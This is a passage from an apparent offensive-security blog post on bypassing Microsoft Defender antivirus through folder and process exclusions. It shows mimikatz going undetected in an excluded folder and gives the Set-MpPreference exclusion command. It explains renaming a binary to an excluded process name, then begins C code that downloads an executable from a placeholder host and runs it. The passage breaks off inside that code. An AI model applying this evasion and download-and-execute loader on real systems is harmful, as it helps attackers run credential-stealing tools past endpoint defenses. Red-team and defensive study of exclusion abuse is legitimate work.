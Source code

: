 ![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/defender_av_exclusion/mimikatz1.png)

In the above image the `mimikatz` gets detected and deleted immediately after it's downloaded to the non-excluded folder but in below image, it can be seen when doing the same in excluded folder, Defender AV becomes silent.
![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/defender_av_exclusion/mimikatz2.png)

#### Abusing Process Based Exclusions
According per Microsoft "When you add a process to the process exclusion list, Microsoft Defender Antivirus won't scan files opened by that process, no matter where the files are located. The process itself, however, will be scanned unless it has also been added to the [file exclusion list](https://learn.microsoft.com/en-us/defender-endpoint/configure-extension-file-exclusions-microsoft-defender-antivirus)." - https://learn.microsoft.com/en-us/defender-endpoint/configure-process-opened-file-exclusions-microsoft-defender-antivirus

This above paragraph is pretty much explanatory. Process based exclusion can be set using the following command.
```powershell
Set-MpPreference -ExclusionProcess "sqlserver.exe"
```
![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/defender_av_exclusion/process1.png)

In the above example, process based exclusion is set for "sqlserver.exe" process without absolute path. Means if sqlserver.exe is executed from anywhere on the endpoint, any activity done by it wouldn't be scanned which also means if there's a malicious process with same name 'sqlserver' all it's malicious activity will be ignored by Defender AV.

So abusing it at first glance would look like downloading our malicious binary and renaming it to excluded process name but let's see if that works.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/defender_av_exclusion/process2.png)

In the above example, even though I downloaded mimikatz as "sqlserver.exe" which we are sure is excluded but still it was detected and deleted by Defender AV. If we recall the statement by Microsoft again "When you add a process to the process exclusion list, Microsoft Defender Antivirus won't scan files opened by that process, no matter where the files are located. The process itself, however, will be scanned unless it has also been added to the [file exclusion list](https://learn.microsoft.com/en-us/defender-endpoint/configure-extension-file-exclusions-microsoft-defender-antivirus)". 

In our case the process which is responsible for downloading mimikatz as sqlserver.exe is PowerShell.exe which is not excluded. If we run PowerShell.exe by renaming it to "sqlserver.exe" then the same activity won't be detected by Defender AV. Rather let's create a simple C code which will just download and execute the downloaded coded (in our case mimikatz)
```c
// gcc downloadExec.c -o downloadExec -lwininet
#include <stdio.h>
#include <windows.h>
#include <wininet.h>

int main() {
    HINTERNET hInternet, hConnect;
    DWORD bytesRead;

    // Initialize WinINet
    hInternet = InternetOpenA("Download Example", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        fprintf(stderr, "InternetOpen failed\n");
        return 1;
    }

    // Open a connection to the URL
    hConnect = InternetOpenUrlA(hInternet, "http://<IP>/mimikatz.exe", NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hConnect == NULL) {
        fprintf(stderr, "InternetOpenUrl failed\n");
```